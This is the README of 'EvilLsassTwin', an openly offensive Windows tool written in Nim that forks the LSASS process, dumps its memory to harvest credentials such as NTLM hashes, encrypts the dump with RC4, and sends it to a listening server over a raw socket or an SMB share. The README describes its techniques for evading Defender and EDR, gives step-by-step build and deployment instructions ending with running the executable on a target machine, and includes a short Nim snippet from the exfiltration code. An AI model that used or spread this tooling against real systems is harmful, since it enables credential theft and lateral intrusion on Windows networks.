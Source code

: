 # Evil Lsass Twin
Originally, a port of the [Dirty Vanity](https://github.com/deepinstinct/Dirty-Vanity) project to fork and dump the LSASS process. Has been updated upon further research to attempt to duplicate open handles to LSASS. If this fails (and it likely will), it will attempt to obtain a handle to LSASS through the `NtGetNextProcess` function instead of `OpenProcess`/`NtOpenProcess`. 

Nim, by default (or rather the Winim module) makes use of dynamic function resolution for Windows API functions, ~~so the IAT should only include a reference to GetProcAddress and LoadLibrary (for better or worse)~~ so the IAT will only contain certain functions standard across all Nim executables.

The process cloning functionality has been updated to use make use of `NtCreateProcessEx` instead of `RtlCreateProcessReflection` as this only requires `PROCESS_CREATE_PROCESS` and does not create an initial thread (thereby triggering process creation kernel callbacks). 

Partial implementation of Process Ghosting technique is included to make use of the Delete On Close functionality. 

How this works: 
1. `MiniDumpWriteDump` function is used to dump forked LSASS process's memory into a file on-disk.
2. File is marked with Delete on Close and does not allow other threads to access it simultaneously.
3. File is mapped into memory
4. File is deleted after open handle to it is closed
5. Mapped Data (memory dump) is encrypted and saved to disk *or* sent to server

This will only occur if the tool is set to use the standard Win32 `MiniDumpWriteDump` API function. By default, EvilLsassTwin uses a custom minidump function that will keep the data in memory unless set to save to disk. This allows EvilLsassTwin to keep the dump size to a minimum. 

Requires the `winim` and `ptr_math` modules. Several IOCs and opportunities for detection since this simple port was not originally built with stealth in mind. However, as noted above, this project _does_ include some stealthy features. 

Tested on Windows 10 22H2 and Windows 11 with Defender enabled (Cloud Analysis disabled).

Must be run from an Administrator Command Prompt or Powershell as EvilLsassTwin depends on `SeDebugPrivilege`. 

_Note: SeDebugPrvilege is enabled by default on Elevated Powershell._

_Note: Tool will **not** work against PPL (try the PPL branch) or Credential Guard. Tool also will not work when EDRs patch LSASS a la [Cortex XDR Modifications](https://www.paloaltonetworks.com/blog/security-operations/detecting-credential-stealing-with-cortex-xdr/)_

# Usage
This project was developed and tested with Nim 1.6.10 and 1.6.14. It is **not** compatible with Nim 2.0.

1. Install Dependencies with `nim dependencies` or through Nimble package manager (Atlas not yet tested)
2. Configure settings from lines 15 to 25. Settings include Server IP and Port, SMB Share Name, saving to disk, minidump method (*set to either **useCustom** or **useTraditional***), and exfil method (*set to either **useRaw** or **useSMB***)
4. Compile the project with `nim build`. _Note: this assumes EvilTwinServer will be run on a Linux machine. Manual compilation required otherwise_
5. If **not** set to save to file: `chmod +x EvilTwinServer && ./EvilTwinServer`
6. Transfer EvilLsassTwin.exe to (Windows) target machine and Run.

# Why's
## Why RC4?
Simplicity. A simple call to `SystemFunction032` is all it takes to implement. Nothing else to code. Entropy isn't sky-high. And it's good enough.

## Why code changes instead of command-line parameters?
First, I don't like Nim's command-line parsing options. Second, if you can't make those simple changes to the code, you probably shouldn't be using this. Third, no command-line parameters means no need for command-line spoofing.

## Why Nim?
I wrote an entire blog post about this. See: [Why Nim? - RePRGM](https://reprgm.github.io/2023/02/13/why-nim/)

## Why a PPL branch?
BYOVD is a cool technique but it has it's downsides. For one, the vulnerable driver is included in and extracted from the `EvilLsassTwin` executable to make things simpler. Those bytes could be flagged by AV/EDR. The vulnerable driver itself is also on the Microsoft Driver Blocklist so that is another potential issue. Not to mention, an unknown executable is attempting to install a known-vulnerable driver. Then, there's the file creation for the driver and the subsequent creation of a (driver) service. 

So, yeah. High-risk, high-reward. I thought it would be better to keep all of that in a separate branch.

# Important Notes
By default, EvilLsassTwin *will* use RC4 to encrypt the dump and display the encryption key in hexadecimal in the console. EvilTwinServer will attempt to decrypt the dump file automatically for you. However, if this fails, you will have to decrypt the file yourself. This can be done with OpenSSL. Take note of the command used in either the terminal (if running) or in the `EvilTwinServer.nim` file!

Alternatively, if you **don't** want a console screen popping up on the target machine, a "headless" build can be done. Take note of the build command in the `config.nims` file and add option `--app:gui`. Doing so will require you to either use EvilTwinServer or create a custom script/application. This is due to EvilLsassTwin sending the encryption key and then the dump in that order. Should another application be used without modification to the `EvilLsassTwin.nim` file, both encryption key and data are likely to be included in the same file, rendering the dump file useless without even further modification. 

EvilTwinServer is **not** required with a standard build. With a simple change to the `EvilLsassTwin.nim` file, another application may be used to receive the encrypted dump file. To do so, simply comment out or remove the following lines: 
```nim
echo "[!] Sending Encryption Key to Server..."
        if not socket.trySend(rc4KeyStr):
            echo "[-] Could Not Send Encryption Key to Server!"
```

Lastly, the custom minidump function is not complete as of now. This means **only** NTLM hashes will be found by tools such as Mimikatz and Pypykatz. For anything else, you will need to configure the tool to use the `MiniDumpWriteDump` function which also will result in large (~50+ MB) dump files. It is because this custom function is not complete that the option to use the traditional API function is there.

# Resources
[Bill Demirkapi - Abusing Windows Implemention of Fork for Stealthy Memory Operations](https://billdemirkapi.me/abusing-windows-implementation-of-fork-for-stealthy-memory-operations/)

[Dirty Vanity](https://github.com/deepinstinct/Dirty-Vanity)

[TransactedSharpMiniDump](https://github.com/PorLaCola25/TransactedSharpMiniDump/tree/master)

[Rasta Mouse - Dumping LSASS with Duplicated Handles](https://rastamouse.me/dumping-lsass-with-duplicated-handles/)

[Rasta Mouse - Duplicating Handles in C#](https://rastamouse.me/duplicating-handles-in-csharp/)

[Splintercod3 - The Hidden Side of Seclogon - Part 2](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html)

[Diversenok - The Definitive Guide to Process Cloning on Windows](https://diversenok.github.io/2023/04/20/Process-Cloning.html)

[NativeDump](https://github.com/ricardojoserf/NativeDump)

[NanoDump](https://github.com/fortra/nanodump)
